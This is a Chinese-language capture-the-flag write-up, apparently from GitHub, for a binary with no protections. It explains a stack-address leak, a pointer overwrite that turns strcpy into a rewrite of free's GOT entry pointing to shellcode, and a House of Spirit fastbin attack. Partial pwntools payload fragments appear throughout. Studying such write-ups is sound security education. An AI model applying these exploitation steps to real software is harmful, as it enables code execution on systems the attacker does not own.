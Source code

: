 # 入手
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
```
各种保护都没开

#程序流程

## 1.输入name
```
for(int i=0;i<=47;i++)
    read(0,name,1);
```
但是这个时候栈是<br>
- (low)
- i         
- ret_val
- name_str
- rbp     
- (high)<br>
如果把name_str填满 就能够在printf的时候打印出栈内保持的ebp 然后算出可以使用的栈地址<br>

## 2.输入id 
```
for(int i=0;i<=3;i++)
    read(0, buf_tmp, 1);
```
限制数字0-9 读入后转换为整数<br>
## 3."give me money~"
```
read(0,buf,0x40);
strcpy (buf_mal, buf);
```
buf_mal是malloc申请的(预计是堆溢出)<br>
然后由全局指针(ptr)来指向这个空间<br>
到这里乍一看好像没什么问题<br>
仔细一点就发现有栈溢出，可以覆盖buf_mal地址
```
buf= byte ptr -40h
dest= qword ptr -8
```
这里直接把堆的地址覆盖成got里free的地址<br>
然后strcpy的时候把free的地址改成shellcode的地址

## 4.分支选择

### choice 1:
限制在0,0x80<br>
ptr = malloc(0x80)<br>
ptr 指向输入的money<br>
上面可以看到之前申请的空间没有释放<br>
最后然后输出之前输入的内容<br>
### choice 2:
test ptr是不是0<br>
0 : 直接输出"havn't check in"然后返回<br>
1 : 释放ptr<br>

### choice 3:
直接返回<br>
### 其他
提示不合法<br>

# 突破点
在choice1 和 choice2那里<br>
开始ptr先有0x40的空间<br>

## 方法

## 1.就是利用strcpy修改got表中free的地址到shellcode地址
然后free
```
# 关键1
shellcode + 'A'*(0x30-len(shellcode))
# 关键2
payload = p64(stack_addr) + 'A'*0x30 + p64(free_got)
# 完成
p.recvuntil('choice : ')
p.send('2\n')
```
第一个就是泄露出栈内ebp的值 然后算出name_str的地址<br>
第二个就是把chunk地址覆盖成got表的free地址 然后利用strcpy把这个地址覆盖成刚刚活动的name_str地址(存放shellcode了) 然后调用free<br>

## 2.THE HOUSE OF SPIRIT
studying
需要构造合适的mem<br>
```
p.recvuntil('money~')
fake_chunk = 'A'*0x8
fake_chunk += p64(0x61)
fake_chunk += 'A'*0x28
fake_chunk += p64(stack_addr)
p.send(fake_chunk)
```
这里stack_addr调整到了刚刚好是0x61的后面的位置，所以0x61就作为这个mem的size了<br>
关于next_size 由于之前要求输入id 并且这个id值保存在比stack_addr指向的位置高的地方，所以0x61就是根据这个确定的(0x60+1 1是标志位)<br>
***next_size有约束条件如下***
```
if(chunk_at_offset(p, size)->size <= 2*SIZE_SZ || \
_builtin_expect(chunksize)(chunk_at_offset(p,size) >= av->system_mem,0))
{
    errstr = "free(): invalid next size fast";
    goto errout;
}
```
即**2*SIZE_SZ < next_size < system_max_mem**

所以只要
```
p.recvuntil('id ~~?')
p.sendline(str(0x20))
```

这样构造之后进行free就会让刚刚构造的mem加入fastbin中<br>
然后调用malloc就又把刚刚的mem中chunk的地址返回给我们，利用返回的值，然后覆盖到某个rsp，最后跳出循环，就能执行shell了。<br>

# Tips
1. 内存泄漏
2. 堆地址覆盖
3. 栈偏移固定
4. 利用了两个可控的位置作为size+8和next_size构造house of spirit

